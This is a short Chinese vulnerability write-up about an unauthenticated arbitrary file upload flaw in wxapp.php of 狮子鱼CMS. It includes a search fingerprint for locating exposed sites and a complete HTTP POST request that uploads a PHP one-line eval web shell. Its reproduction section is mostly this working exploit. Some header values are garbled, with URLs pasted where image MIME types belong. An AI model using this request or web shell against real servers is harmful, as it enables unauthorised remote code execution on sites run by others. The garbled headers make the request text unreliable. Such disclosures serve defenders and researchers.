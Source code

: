 # 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](images/202202170927506.png)

发送请求包上传PHP文件

```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST['test']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

![](images/202202170927684.png)



![](images/202202170927948.png)